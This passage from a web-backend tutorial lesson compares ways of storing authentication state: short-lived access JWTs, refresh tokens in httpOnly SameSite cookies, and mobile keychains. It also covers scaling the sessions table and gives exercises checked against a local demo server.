- **Multi-device auth.** A real user has 5+ active sessions — laptop, phone, work desktop, tablet, partner's shared device, plus a stale session on a hotel TV they forgot to log out of. The `sessions` table is therefore not "one row per user" — it is "one row per device per user," indexed on `(user_id, signed_id)`. The `logout-everywhere` endpoint must be a single `DELETE FROM sessions WHERE user_id = $1`, not five sequential `DELETE FROM sessions WHERE signed_id = $1` calls. The trade-off: the `sessions` table grows fast (5M users × 5 devices = 25M rows), so partition by `user_id` (Postgres declarative partitioning — 64 hash partitions is a reasonable starting point for a few-million-user table) and add a sweep job that deletes sessions past their absolute TTL. The stale-session sweep is what keeps the table from growing unboundedly; the partitioning is what keeps individual `DELETE WHERE user_id = $1` queries from scanning the whole table.
- **Mobile app token storage.** Native iOS and Android apps do not have a browser cookie jar; they have an OS keychain. On iOS, the Keychain (`SecItemAdd` with `kSecClassGenericPassword` and `kSecAttrAccessible` set to `kSecAttrAccessibleAfterFirstUnlockThisDeviceOnly` for refresh tokens — accessible after the first device unlock, not in the always-on class which is for fast access not secrets) is the right store. On Android, the Keystore (since Android 4.3, with hardware-backed keys mandatory since Android 8) is the equivalent. The access JWT stays in the app's process memory (re-fetched via `/auth/refresh` on app cold-start); the refresh opaque token lives in the OS keychain. The native variant of Pattern 5 is therefore: short-lived access JWT in app memory, long-lived refresh opaque token in the OS keychain — NOT in `SharedPreferences` (Android) or `UserDefaults` (iOS), which are plaintext XML files, not secrets stores.
- **Refresh-token rotation at 10M users.** If you rotate the refresh token on every `/auth/refresh` call (the recommended pattern from Mistake 4) and your access JWT is 5 minutes, then 10M active users generate ~2M refresh calls per minute at peak (10M / 5 min). Each refresh is one INSERT (new session row) + one DELETE (old session row) + one Set-Cookie header on the response. The Postgres write rate is therefore ~4M rows/min on the `sessions` table. At that rate you need: (a) the table partitioned (per above), (b) the INSERT/DELETE batched into a single transaction to halve WAL writes, (c) the reuse-detection window implemented as a Redis set with TTL (not a Postgres query — the lookup rate is too high for the DB), and (d) a rate-limit on `/auth/refresh` per-IP and per-user (the attacker's strategy is to spam refresh to brute-force the reuse window — cap at, say, 60/min per user). The 5-minute access lifetime is not just a security choice; it is also a write-rate choice. Lengthen the access lifetime to 1 hour and the sessions-table write rate drops 12× — but a stolen access token is good for 1 hour instead of 5 minutes. The trade-off is real, and the senior engineer names it before the SRE names it for them.


### Access JWT in `Authorization` vs in `httpOnly` cookie

`Authorization` is CSRF-immune; `httpOnly` cookie is XSS-safe for theft but CSRF-vulnerable. The trade-off is "what's your bigger threat?" — for browser apps, CSRF is the bigger threat (use `Authorization`); for embedded webviews, XSS is (use cookie).

### JWT vs opaque token in `Authorization`

JWT can be verified by any service with the public key (stateless); opaque token requires a DB lookup (stateful). JWT is right for distributed auth; opaque is right for single-app. We use JWT in this lesson because [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh|Section 11]] is the deep dive on JWT.

## When to Use What

This section is the decision tree. The matrix above tells you *what trade-offs* each pattern makes; this section tells you *which pattern to pick* for a given client type and threat priority.

### The decision flowchart

Start at the top. At each diamond, pick the branch that matches your situation. The leaf is the pattern to use.



### Default recommendation for new projects

For a new browser-based SPA with a FastAPI backend, **start with Pattern 5** — short-lived access JWT (5 min) in the SPA's memory, long-lived refresh opaque token (30 days, server-side session row) in an `__Host-`-prefixed `httpOnly`+`Secure`+`SameSite=Strict` cookie. The code in this lesson implements exactly this. Pattern 5 is the right default because:

- It is the only pattern that is XSS-safe for theft (access is in-memory, refresh is `httpOnly`), CSRF-immune for the access path (header, not cookie) and the refresh path (`SameSite=Strict`), revocable (the refresh row is in the DB), and works on mobile (the access JWT fits the native SDK pattern, the refresh token fits the OS keychain).
- The cost is two endpoints (`/auth/login` + `/auth/refresh`), two stores (JWT signing key + sessions table), and ~200 lines of JS for the silent-refresh flow. That's a one-time cost; the operational simplicity (no `localStorage` XSS surface, no CSRF on the access path, no revoke-by-waiting-for-`exp`) pays back forever.

For a new native mobile app, use the **mobile variant of Pattern 5**: access JWT in the app's process memory, refresh *opaque token* (not JWT — see the matrix's revocation column) in the OS keychain. The mobile variant drops the `httpOnly` cookie (native apps don't have a cookie jar) and replaces it with the OS keychain, which has the same JS-unreadable property (`httpOnly`'s analogue in the native world).

**Student asks: when is Pattern 5 NOT the right answer?**

Three cases I can think of:
- **Server-rendered apps with no SPA**: Pattern 1 (server-side session row) is simpler and the SPA-silent-refresh cost doesn't apply because there's no SPA. Use Pattern 1 for server-rendered Django/Flask/FastAPI-with-Jinja apps.
- **Server-to-service APIs**: Pattern 3a with asymmetric keys (RS256 or EdDSA — see the [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh|Section 11]] algorithm table) — the verifier service fetches the JWKS, the issuer keeps the private key. No refresh token; service-account JWTs are short-lived and re-issued by an OAuth2 client-credentials flow.
- **Legacy systems with an existing opaque-token infrastructure**: if you already have a working opaque-token table and revocation API, Pattern 6 in the *native* variant (opaque token in the OS keychain, not `localStorage`) is a reasonable interim. The migration path is to add a JWT access token on top (Pattern 5) once the legacy system is decommissioned.

In all three cases, the answer is *not* Pattern 3b (JWT in `localStorage`). Pattern 3b is the wrong answer in any scenario where the user's browser is the client — `localStorage` is the XSS surface, and the convenience (the JWT survives page refresh) is not worth the exfiltration risk. The silent-refresh flow in Pattern 5 is ~200 lines of JS that buys you the same convenience (the JWT survives refresh — it's just re-fetched from the `httpOnly` cookie) without the XSS surface. Pattern 3b exists in this catalog because most tutorials default to it; **avoid it in your own code**.


## Exercises

**Tip — The 20-minute rule**

Stuck? Re-read the relevant section above, then move on.


**Exercise 1 — Refresh-token rotation.** Modify `/auth/refresh` to issue a new refresh token, delete the old one, set a new cookie. Test that the old cookie no longer works.

**Exercise 2 — Reuse detection.** Implement a "recently rotated" window of 1 minute where the old refresh token is still valid (so concurrent refreshes work). If the old token is used *after* the window, revoke all sessions for the user (suggesting theft).

**Exercise 3 — `RS256` (asymmetric).** Replace `HS256` with `RS256`. Generate a key pair. Sign with the private key; verify with the public. Why would you do this in production?

**Exercise 4 — In-memory access JWT in the SPA.** Write a small SPA (one HTML file with a `<script>`) that stores the access JWT in a JS variable, calls `/auth/me`, and silent-refreshes on 401.

**Exercise 5 — `logout-everywhere` test.** Log in from three "devices" (three different curl invocations with `-c cookies-1.txt`, `-c cookies-2.txt`, `-c cookies-3.txt`). Call `/auth/logout-everywhere` from one. Verify the other two can no longer refresh.

**Exercise 6 — Revocation list.** Maintain a `revoked_jti` set in Redis. On `decode_access_token`, check if the `jti` is revoked. Add `POST /auth/revoke-self` that revokes the current access JWT's `jti` (used by logout to immediately kill the access token too).

**Exercise 7 — Token-rotation attack test.** Implement rotation (Exercise 1). Then "steal" a refresh cookie (copy it). Use it before the legitimate user's next refresh — it works. Use it *after* — it doesn't. What's the window?

### Exercises with verification (8–13)

These exercises extend the lesson with `uv run` verification commands so you can confirm each behaviour locally before moving on. Run them from the `02b-Backend-Foundations` workspace root. Each exercise is independent of the others unless noted.

**Exercise 8 — `aud` claim.** Add `aud: str = Field(..., description="intended audience")` to `AccessClaims`, set `aud="boardly-api"` at issuance, and pass `audience="boardly-api"` to `jwt.decode` in `decode_access_token`. Then verify that a token minted for a different audience is rejected. Confirm by running `uv run python -c "import jwt; t=jwt.encode({'sub':'1','aud':'boardly-admin','exp':9999999999},'k',algorithm='HS256'); r='FAIL'; exec('try:\\n jwt.decode(t,\"k\",algorithms=[\"HS256\"],audience=\"boardly-api\")\\nexcept jwt.InvalidAudienceError: r=\"PASS\"'); print(r)"` and confirming the output is `PASS` (the `decode` call raised `InvalidAudienceError`).

**Exercise 9 — Clock-skew `leeway`.** Add `leeway=timedelta(seconds=30)` to the `jwt.decode(...)` call in `decode_access_token`. Verify that a token issued 10 seconds in the future (clock ahead) is still accepted within the leeway window: `uv run python -c "import jwt, time; from datetime import datetime, timezone, timedelta; from boardly.auth.tokens import JWT_SECRET, JWT_ALGORITHM; future = int((datetime.now(timezone.utc) + timedelta(seconds=10)).timestamp()); t = jwt.encode({'sub':'1','exp':future}, JWT_SECRET, algorithm=JWT_ALGORITHM); print(jwt.decode(t, JWT_SECRET, algorithms=[JWT_ALGORITHM], leeway=30)['sub'])"` should print `1` without raising `ExpiredSignatureError`.

**Exercise 10 — `__Host-` prefix self-check.** Write a unit test that asserts the refresh cookie set by `set_refresh_cookie` has all four `__Host-` requirements: `Secure=True`, `Path=/`, no `Domain` attribute, and `HttpOnly=True`. Verify by running `uv run python -c "from starlette.responses import Response; from boardly.auth.tokens import set_refresh_cookie; r = Response('x'); set_refresh_cookie(r, 'abc'); h = r.headers.get('set-cookie', ''); print('secure:', 'Secure' in h, 'path=/', 'Path=/' in h, 'no domain:', 'Domain' not in h, 'httponly:', 'HttpOnly' in h, 'samesite=strict:', 'SameSite=strict' in h)"` and confirming all five checks print `True`.

**Exercise 11 — Refresh-token rotation with reuse detection.** Modify `/auth/refresh` to (a) issue a new refresh token, (b) keep the old token valid for a 60-second reuse window in a Redis set with TTL, (c) on a second use of the old token *after* the window, revoke all sessions for the user (suggesting theft). Verify the rotation + reuse window: log in, copy the refresh cookie, call `/auth/refresh` once with the cookie — expect a new access token + a new `Set-Cookie`. Call `/auth/refresh` again with the *old* cookie within 60 s — expect a new access token (the reuse window is still open). Wait 65 s, call `/auth/refresh` with the old cookie again — expect `401 invalid refresh token` and a `DELETE FROM sessions WHERE user_id = $1` triggered for the user. Verify with `uv run python -c "import httpx, time; c = httpx.Client(base_url='http://127.0.0.1:8000'); r1 = c.post('/auth/login', json={'email':'alice@boardly.dev','password':'alice-demo-pw-2026'}); old_cookie = r1.cookies.get('__Host-refresh'); r2 = c.post('/auth/refresh'); time.sleep(65); r3 = httpx.post('http://127.0.0.1:8000/auth/refresh', cookies={'__Host-refresh': old_cookie}); print('status:', r3.status_code, 'body:', r3.json())"` — the third call must return `401`.

**Exercise 12 — `jti` revocation list in Redis.** Maintain a Redis set `revoked_jti` with TTL equal to the access token's lifetime. On `decode_access_token`, check `if jti in redis.smembers('revoked_jti'): raise HTTPException(401)`. Add `POST /auth/revoke-self` that adds the current access JWT's `jti` to the set (used by logout to immediately kill the access token, not just the refresh). Verify: log in, get an access token, call `/auth/revoke-self` with `Authorization: Bearer <jwt>`, then call `/auth/me` with the same JWT — expect `401`. Verify with `uv run python -c "import httpx; c = httpx.Client(base_url='http://127.0.0.1:8000'); r = c.post('/auth/login', json={'email':'alice@boardly.dev','password':'alice-demo-pw-2026'}); jwt = r.json()['access_token']; c.post('/auth/revoke-self', headers={'Authorization': f'Bearer {jwt}'}); me = c.get('/auth/me', headers={'Authorization': f'Bearer {jwt}'}); print('status after revoke:', me.status_code)"` should print `401`.

**Exercise 13 — Logout-other-devices vs logout-everywhere.** Add `POST /auth/logout-other-devices` that revokes every session for the user *except* the one in the calling cookie. The implementation: `DELETE FROM sessions WHERE user_id = $1 AND signed_id <> $2` (where `$2` is the calling session's ID). This is the "log me out of my other tabs" UX, distinct from `logout-everywhere` (which kills all sessions including the calling one). Verify the difference: log in from three "devices" (three curl `-c` cookie files), call `/auth/logout-other-devices` from device 1, then attempt `/auth/refresh` from each device — only device 1's refresh succeeds. Verify with `uv run python -c "import httpx; base = 'http://127.0.0.1:8000'; d1 = httpx.Client(base_url=base); d2 = httpx.Client(base_url=base); d3 = httpx.Client(base_url=base); creds = {'email':'alice@boardly.dev','password':'alice-demo-pw-2026'}; [c.post('/auth/login', json=creds) for c in (d1, d2, d3)]; d1.post('/auth/logout-other-devices'); print('d1:', d1.post('/auth/refresh').status_code, 'd2:', d2.post('/auth/refresh').status_code, 'd3:', d3.post('/auth/refresh').status_code)"` should print `d1: 200 d2: 401 d3: 401`.

## Verification

Run the app and the five-step trace above. Expected:

1. Login → 200 with `access_token` in body + `Set-Cookie: __Host-refresh=<...>` with `HttpOnly`, `Secure`, `SameSite=Strict`.
2. `GET /auth/me` with `Authorization: Bearer <jwt>` → 200.
3. `POST /auth/refresh` with `Cookie: __Host-refresh=<...>` (no Authorization) → 200 with a new `access_token`.
4. `POST /auth/logout` with `Cookie: __Host-refresh=<...>` → 200 + `Set-Cookie: __Host-refresh=; Max-Age=0`.
5. `POST /auth/refresh` with the old cookie → 401.

If all five pass, your auth pattern is correctly wired.

## Previously Learned Here

These concepts were taught in earlier lessons. We link back instead of re-explaining:

- **Cookies (canonical)** — [[HTTP-Cookies-Deep-Dive|Lesson 2 of this section]]. The refresh cookie's attributes (`__Host-`, `HttpOnly`, `Secure`, `SameSite=Strict`) were covered there.
- **Sessions (canonical)** — [[Session-Management|Lesson 3 of this section]]. The refresh token *is* a session ID; the session store, the rotation, the expiry sweep — all from that lesson.
- **CSRF (canonical)** — [[CSRF-Protection|Lesson 4 of this section]]. `SameSite=Strict` on the refresh cookie is one of the three CSRF defences; the synchronizer-token pattern was covered there.
- **HTTP headers (deep dive)** — [[HTTP-Headers-Deep-Dive|Lesson 1 of this section]]. The `Authorization` header and `Set-Cookie`/`Cookie` headers were surveyed there.
- **JWT** — [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh|Section 11 Lesson 1]]. The JWT mechanics (header, payload, signature, claims, algorithms, key rotation) are taught there. This lesson is *where to put* the JWT.
- **`Annotated`** — [[01-Python-Foundations/Type-Hints-and-Annotations]]. The canonical code uses `Annotated[SessionStoreProtocol, Depends(_store)]`, `Annotated[str | None, Cookie(alias=REFRESH_TOKEN_COOKIE_NAME)]`, and `Annotated[HTTPAuthorizationCredentials | None, Depends(_bearer)]`; the typing primitive is taught in Phase 1.

## What's Next

In [[HTTP-Caching-Headers-Deep-Dive]] (Lesson 9), we cover the production-grade caching directives — `s-maxage`, `stale-while-revalidate`, `Vary: Authorization`, `Surrogate-Control`, `Cache-Status` (RFC 9211) — and the cross-user cache-poisoning attack that `Vary: Authorization` prevents. The auth pattern from this lesson (short JWT in `Authorization`, long opaque refresh in a `__Host-` cookie) directly informs the `Vary: Authorization` requirement: per-user responses must be keyed by the `Authorization` request header, or the CDN will serve Alice's response to Bob.

After Lesson 9, the section continues with [[Health-Checks-and-Probes]] (Lesson 10 — Kubernetes probes), [[Pagination-Deep-Dive]] (Lesson 11 — keyset pagination), [[Problem-Details-RFC-7807]] (Lesson 12 — RFC 9457 error envelope), [[JWT-vs-Sessions-vs-Cookies]] (Lesson 13 — the auth decision tree), [[Real-Time-Transports-Compared]] (Lesson 14 — polling vs SSE vs WebSocket), [[API-Versioning-Strategies]] (Lesson 15 — URL/header/content-type + Sunset/Deprecation), and [[Resumable-and-Chunked-Uploads]] (Lesson 16 — tus protocol + S3 multipart).

From the end of Section 02b, the natural progression is:

- [[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh|Section 11 Lesson 1 — OAuth2, JWT, Access + Refresh]]: the deep dive on JWT mechanics, OAuth2 flows, asymmetric vs symmetric keys, refresh-token rotation with reuse detection, the OAuth2.1 draft.
- [[11-Authentication-and-Security/RBAC-and-Object-Level-Auth|Section 11 Lesson — RBAC]]: role-based access control, building on the `get_current_user` dependency we wrote here.
- [[11-Authentication-and-Security/Threat-Model-First|Section 11 Lesson — Threat Model First]]: the broader threat-modelling framework, including XSS, CSRF, SSRF, IDOR, and how to think about each.

If you've followed this section in order, you now have the substrate (cookies), the state (sessions), the defence (CSRF), the negotiation (content), the parsing (forms/uploads), and the architecture (auth state storage) for everything that comes next. The next sections build on top.

## Sources

- **OWASP — Authentication Cheat Sheet** — <https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html> — accessed 2026-10-19.
- **OWASP — JSON Web Token Cheat Sheet** — <https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html> — accessed 2026-10-19.
- **RFC 7519 — JSON Web Token (JWT)** — <https://www.rfc-editor.org/rfc/rfc7519> — accessed 2026-10-19.
- **RFC 6749 — OAuth 2.0 Authorization Framework** — <https://www.rfc-editor.org/rfc/rfc6749> — accessed 2026-10-19.
- **RFC 9110 — HTTP Semantics, § 11. Authorization** — <https://www.rfc-editor.org/rfc/rfc9110#section-11.1> — accessed 2026-10-19.
- **"Cookies vs Tokens" — Auth0 blog** — <https://auth0.com/blog/cookies-vs-tokens-the-definitive-guide/> — accessed 2026-10-19 — the classic comparison (note: written before `SameSite=Strict` made cookies much safer).
- **PyJWT documentation** — <https://pyjwt.readthedocs.io/> — accessed 2026-10-19.
- **FastAPI 0.148.0 release notes** — <https://fastapi.tiangolo.com/release-notes/> — verified 0.148.0 released 2026-10-19.

## What We Learned

Let's recap. In this lesson you:

- **Compared the six patterns** for storing the authenticated user's state — server-side session row, signed cookie, JWT in `Authorization` (in-memory vs `localStorage`), JWT in `httpOnly` cookie, and opaque token in `localStorage` — across eight dimensions: XSS-theft, XSS-make-requests, CSRF, revocation, DB outage, size cost, multi-device, mobile-app suitability.
- **Understood why "JWT in localStorage" is the most common and the most attacked** — and the specific XSS chain that makes it so. Pattern 3b is documented for completeness; **avoid it** in your own code.
- **Walked the decision tree** — native mobile vs browser, server-rendered vs SPA, low-sensitivity vs high-sensitivity — and saw why Pattern 5 (the recommended synthesis) is the right default for new browser-based SPAs, with a mobile variant for native apps.
- **Implemented the recommended pattern** — short-lived access JWT in `Authorization` (in-memory in the SPA), long-lived refresh token in `httpOnly`+`Secure`+`SameSite=Strict` cookie.
- **Built the silent-refresh flow** — `/auth/refresh` uses the cookie to issue a new access JWT without an `Authorization` header.
- **Implemented logout and logout-everywhere** — revoking the single refresh session, or all sessions for the user.
- **Hit and fixed the six classic auth-storage bugs** — `localStorage` for access JWT, long access lifetime, `SameSite=Lax` on refresh, no rotation, not pinning the JWT algorithm, non-`HttpOnly` access cookie.
- **Reframed the storage decision as a security-model choice** — where you store auth state IS your security model. The senior question is "what's my XSS risk, what's my CSRF risk?" — not "JWT or cookies?" `localStorage` opens the XSS-to-token-theft chain; `SameSite=Lax` opens the CSRF-via-cookie-replay chain; `httpOnly`+`SameSite=Strict` closes both.
- **Learned the 4-step incident response for a JWT-in-localStorage XSS exfiltration** — rotate the signing key (kill switch), find and patch the XSS (root cause), revoke refresh tokens (long-lived credential), audit and post-mortem (the compromised-user trail). Don't roll back the deploy; the bug is in the SPA, not the backend.
- **Surveyed three attacker exploitation paths** — the XSS-to-token-theft chain (the payload is one line of `fetch`), the CSRF-via-cookie replay against `/auth/refresh` (closed by `SameSite=Strict` plus a synchronizer-token), and localStorage enumeration (an XSS can iterate every key; the obscure-key defence is a self-deception).
- **Reasoned about production auth at 10M users** — multi-device partitioning of the `sessions` table, the OS keychain (iOS Keychain / Android Keystore) for native refresh-token storage, and the refresh-token rotation write-rate economics (~4M rows/min at peak) that drive the access-lifetime trade-off.

Here's the mental model to walk away with: *the access token is short-lived and stored in memory (or `Authorization`), never in `localStorage` or a non-`HttpOnly` cookie. The refresh token is long-lived and stored in an `httpOnly`+`Secure`+`SameSite=Strict` cookie — server-side, revocable. XSS can't steal the refresh (HttpOnly). CSRF can't reach the refresh (SameSite=Strict). The access JWT dies in 5 minutes, even if stolen. The refresh token is revocable server-side. This is the pattern that survives both. When the storage choice fails anyway, the incident response is: rotate the signing key, patch the XSS, revoke refresh tokens, audit and post-mortem.*

---

> A note from your teacher
You made it through Lesson 7. The substrate is in place — cookies, sessions, CSRF, content negotiation, forms and uploads, and now the auth pattern that ties them together. The recommended pattern in this lesson — short-lived access JWT in `Authorization`, long-lived refresh in `httpOnly`+`SameSite=Strict` cookie — is what the best production apps ship. It's not the simplest pattern. It's not what most tutorials teach. But it's the one that survives both of the dominant web attack classes — XSS and CSRF — without trading one off against the other. Section 02b continues with eight more lessons — HTTP caching, health probes, pagination, problem-details, the auth decision tree, real-time transports, API versioning, and resumable uploads — before we head to Section 11 ([[11-Authentication-and-Security/OAuth2-JWT-Access-Refresh|Section 11]]) for the deeper JWT and OAuth2 mechanics. The substrate you built here stays. See you in Lesson 9.


---

**Tags:** #http #auth #security #jwt #cookies #review
**Previous:** [[Request-Body-Forms-and-Uploads]]
**Next:** [[HTTP-Caching-Headers-Deep-Dive]] ->
